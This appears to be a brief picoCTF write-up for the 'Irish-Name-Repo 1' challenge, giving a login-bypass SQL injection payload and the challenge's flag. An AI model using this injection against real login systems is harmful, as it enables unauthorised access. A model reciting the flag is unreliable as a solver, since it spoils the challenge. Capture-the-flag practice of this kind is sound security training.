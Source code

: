 <h1>Irish-Name-Repo 1</h1>
<h3>Description</h3>
<p>There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/ (link) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!</p>
<h3>Solution</h3>
<label>Payload</label>
<pre>
Username : admin'or'1'='1 -- 
Password : bla
</pre>
<h3>Flag</h3>
<pre>
picoCTF{s0m3_SQL_fb3fe2ad}
</pre>
